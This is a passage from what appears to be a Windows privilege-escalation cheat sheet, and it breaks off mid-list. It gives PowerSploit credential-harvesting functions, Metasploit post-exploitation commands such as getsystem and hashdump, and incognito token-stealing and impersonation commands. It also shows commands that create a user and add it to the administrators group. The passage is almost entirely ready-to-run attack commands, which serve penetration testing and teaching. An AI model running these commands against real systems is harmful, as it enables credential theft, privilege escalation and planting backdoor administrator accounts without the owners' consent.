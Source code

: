 ## EoP 9: Automated tools

Powersploit

    https://github.com/PowerShellMafia/PowerSploit
    Get-GPPPassword
    Get-UnattendedInstallFile
    Get-Webconfig
    Get-ApplicationHost
    Get-SiteListPassword
    Get-CachedGPPPassword
    Get-RegistryAutoLogon

Metasploit

    post/windows/gather/credentials/gpp
    post/windows/gather/enum_unattend

    getsystem
    getprivs
    use priv
    hashdump

Metasploit incognito

    use incognito
    list_tokens -u
    list_tokens -g
    impersonate_token DOMAIN_NAME\\USERNAME
    steal_token PID
    drop_token
    rev2self

## Useful commands

Add a new user

    $ net user test 1234 /add
    $ net localgroup administrators test /add

Print files contents:

    $ type file

Remove file

    $ del /f file

Change password for user:

    $ net user <user> <password>

List users:

    $ net user

Info about a user:
